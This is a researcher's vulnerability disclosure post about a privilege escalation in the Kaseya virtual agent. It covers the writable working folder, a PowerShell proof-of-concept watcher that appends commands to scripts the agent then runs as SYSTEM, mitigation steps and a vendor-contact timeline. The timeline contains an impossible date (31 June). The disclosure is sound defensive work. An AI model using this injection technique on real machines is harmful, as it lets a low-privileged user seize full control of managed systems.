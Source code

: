 ```yaml
---
layout: post
category: hold
title: Kaseya privilege escalation
---
```


<h3>Introduction</h3>
<p>
So this is the first time I've written about a security issue I've found.
I decided to write about this as the vendor was unresponsive and looking their product CVEs it seems to be a
common place. The other reason is that if an organisation is using this product, most of their machines are at risk. 

So I give you Kaseya virtual agent.
</p>

<h3>Product</h3>
<h4>Windows 10. Agent version <= 9.5</h4>
<p>
Kaseya virtual agent provides a web application interface for managing and monitoring IT assets via its deployed agents.
Its a competitor for Microsoft system centre and has a small portion of the market when compared with other vendors.
The agent itself looks to be a several tools bundled together instead of a dedicated agent leveraging host capabilities such as PowerShell, WScript as well as a couple of binaries like curl which are dropped.
</p>
  
<h3>Vulnerability</h3>
<p>
This is not really a new issue as such but more an extension of <a href="https://www.securityfocus.com/archive/1/541884/30/300/threaded">CVE-2017-12410</a> found by Filip Palian.
Where a fix was put in place for the original issue it was specific to binaries and not scripts.
The root cause for both issues is a low privileged group with excessive permissions to a folder used by a elevated process.
 
</p>

  <img src="/images/authenticated.png" />
  
<p>
The Kaseya agent runs as SYSTEM by default.
The agent also has a default working folder @ <code class="highlighter-rouge">c:\kworking</code>.
It will pull scripts and binaries to this folder and execute them from disk from the controlling web application.
By default the <code class="highlighter-rouge">Authenticated Users</code> group has all rights to this folder.

Scripts are written to disk however they are not checked for integrity prior to execution.
So a folder can be monitored for script files being dropped and then append malicious code prior to execution.
</p>

<h3>Impact</h3>
<p>
Given that the Kaseya virtual agent is an asset management tool, if the agent is deployed on a single machine within an organisation there is a good chance it has been deployed across the majority of the systems. The vulnerability itself is reliant on code execution within the working folder and depends on scheduled tasks or ad-hoc script execution from the web interface, so the wait time can vary.

So this is case by case based on script usage via agents within the organisation.
</p>

<h3>Proof of concept</h3>
This PowerShell script will use a file monitor against the default working directory.
When a ps1 script drops it will then append the command "Write-Host 'injected content'" which will run as SYSTEM.

<pre>
  <code>
      $folder = 'c:\kworking' 
      $filter = '*.ps1'                          

      $filesystem = New-Object IO.FileSystemWatcher $folder, $filter -Property @{IncludeSubdirectories = $false;NotifyFilter =  [IO.NotifyFilters]'FileName, LastWrite'}

      Register-ObjectEvent $filesystem Created -SourceIdentifier FileCreated -Action { 
          $path = $Event.SourceEventArgs.FullPath 
          "`nWrite-Host 'injected content'" | Out-File -Append -FilePath $path -Encoding utf8 
          Unregister-Event FileCreated
      }
  </code>
</pre>

Change the Write-Host command to the code to be executed or update the script to target other script drops such as vb script.
</p>

<h3>Mitigation</h3>
<p>
All scripts should be signed and verified prior to execution eliminating the ability to append arbitrary commands. Additionally Kaseya should remove the excessive privileges on the working directory. 
Removing <code class="highlighter-rouge">Authenticated Users</code> permissions to write/append would be another step forward though I am unsure of the impact of the Kaysea product.
</p>

<h3>Timeline</h3>
<ul>
  <li>16-06-2019 :: Issue found</li>
  <li>18-06-2019 :: security@ emailed requesting steps to disclose</li>  
  <li>30-06-2019 :: CERT contacted due to non response of vendor from official email address</li>
  <li>31-06-2019 :: CERT still unable to contact vendor</li>
  <li>07-07-2019 :: CERT makes contact with vendor. Discover security@ address is not monitored by vendor</li>
  <li>20-08-2019 :: Vendor confirms receipt of details</li>
  <li>27-08-2019 :: Email sent indicating intention to disclose due to lack of response</li>
</ul>
